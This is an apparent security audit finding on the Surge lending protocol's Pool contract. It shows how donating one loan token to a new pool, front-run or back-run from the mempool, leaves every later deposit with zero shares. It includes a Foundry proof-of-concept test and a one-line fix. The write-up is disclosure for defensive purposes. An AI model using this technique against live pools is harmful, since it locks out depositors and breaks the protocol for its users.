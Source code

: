 bshramin

high

# Attacker can make a pool completely dysfunctional from the beginning

## Summary
From the get go, an attacker can make a pool completely dysfunctional. By sending any amount of the loanToken to the pool, the attacker can make the pool unable to receive any deposits, and the pool will be completely unusable.

## Vulnerability Detail

When depositing loanToken to the pool, to calculate the number of shares that the lender should receive, the `tokenToShares` function is called on line 324.

This is where it's called:
https://github.com/Surge-fi/surge-protocol-v1/blob/b7cb1dc2a2dcb4bf22c765a4222d7520843187c6/src/Pool.sol#L307
```solidity
function deposit(uint amount) external {
        uint _loanTokenBalance = LOAN_TOKEN.balanceOf(address(this));
        (address _feeRecipient, uint _feeMantissa) = FACTORY.getFee();
        (  
            uint _currentTotalSupply,
            uint _accruedFeeShares,
            uint _currentCollateralRatioMantissa,
            uint _currentTotalDebt
        ) = getCurrentState(
            _loanTokenBalance,
            _feeMantissa,
            lastCollateralRatioMantissa,
            totalSupply,
            lastAccrueInterestTime,
            lastTotalDebt
        );

        uint _shares = tokenToShares(amount, (_currentTotalDebt + _loanTokenBalance), _currentTotalSupply, false);
        require(_shares > 0, "Pool: 0 shares");
        _currentTotalSupply += _shares;

        // Goes on to update states and etc ... 
}

```
This is the function:
https://github.com/Surge-fi/surge-protocol-v1/blob/b7cb1dc2a2dcb4bf22c765a4222d7520843187c6/src/Pool.sol#L199
```solidity
function tokenToShares (uint _tokenAmount, uint _supplied, uint _sharesTotalSupply, bool roundUpCheck) internal pure returns (uint) {
        if(_supplied == 0) return _tokenAmount;
        uint shares = _tokenAmount * _sharesTotalSupply / _supplied;
        if(roundUpCheck && shares * _supplied < _tokenAmount * _sharesTotalSupply) shares++;
        return shares;
    }
```
At the beginning of the function, it checks if the `_supplied` is 0. If it is, it returns the `_tokenAmount`. This is the problem. The `_supplied` is the total amount of loanToken that has been deposited to the pool. If the attacker sends any amount of loanToken to the pool, the `_supplied` will be greater than 0, and the attacker can make the pool unusable. It will be unusable because `_supplied` will be greater than 0 while `_sharesTotalSupply` is still zero so
https://github.com/Surge-fi/surge-protocol-v1/blob/b7cb1dc2a2dcb4bf22c765a4222d7520843187c6/src/Pool.sol#L201
```solidity
uint shares = _tokenAmount * _sharesTotalSupply / _supplied;
```
will always result in zero for any amount of deposit and the pool will be unusable.


This is a serious problem because the attacker can see the creation transaction on mempool and since the address of the pool is known even before creation (from the formula below) the attacker can create and send the transfer transaction while the pool has not yet been created yet (attacker back-runs the creation transaction).
```solidity
address = rightmost_20_bytes(keccak(RLP(sender address, nonce)))
```

## Impact
The impact of this vulnerability is that the attacker can make any new pool completely unusable from the beginning.

## Code Snippet

This foundry test case shows the vulnerability in action:
```solidity
function testPreventDeposit() external {
    MockERC20 collateralToken = new MockERC20(0, 18);
    MockERC20 loanToken = new MockERC20(1000, 18);
    Pool pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 1e18, 0.8e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);

    loanToken.approve(address(pool), 100);
    loanToken.transfer(address(pool), 1);
    pool.deposit(100);

    assertEq(pool.balanceOf(address(this)), 100);
    assertEq(pool.totalSupply(), 100);
    pool.withdraw(100);
    assertEq(pool.balanceOf(address(this)), 0);
    assertEq(pool.totalSupply(), 0);
}
``` 
if we remove the line `loanToken.transfer(address(pool), 1);` the test will pass.


## Tool used

Manual Review

## Recommendation
My main recommendation is to not use `LOAN_TOKEN.balanceOf(address(this));` anywhere in the code. This is a very dangerous function to use because it can be manipulated by the attacker. Instead, keep a variable that keeps track of the total amount of loanToken that has been deposited to the pool. This variable should be updated every time a deposit or withdrawal happens. This way, the attacker cannot manipulate the `_supplied` variable.

For this particular vulnerability, I would recommend changing the check at the beginning of `tokenToShares` function to the following:

```solidity
if(_sharesTotalSupply == 0) return _tokenAmount;
```
It's a one-line change that can fix this vulnerability since the attacker cannot manipulate `_sharesTotalSupply`.
